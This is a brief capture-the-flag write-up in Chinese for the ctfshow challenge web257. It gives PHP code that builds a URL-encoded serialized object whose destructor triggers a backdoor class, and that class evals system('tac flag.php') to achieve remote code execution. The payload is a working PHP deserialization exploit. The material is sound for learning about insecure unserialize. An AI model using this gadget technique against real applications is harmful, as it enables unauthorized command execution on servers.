

# web257
关键在于如何实现rce,需构造序列化数据,调用后门类
关键:$this->class=new backDoor();
```
<?php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class backDoor{
    private $code="system('tac flag.php');";
    public function getInfo(){
        eval($this->code);
    }
}

echo  urlencode(serialize(new ctfShowUser()));

```
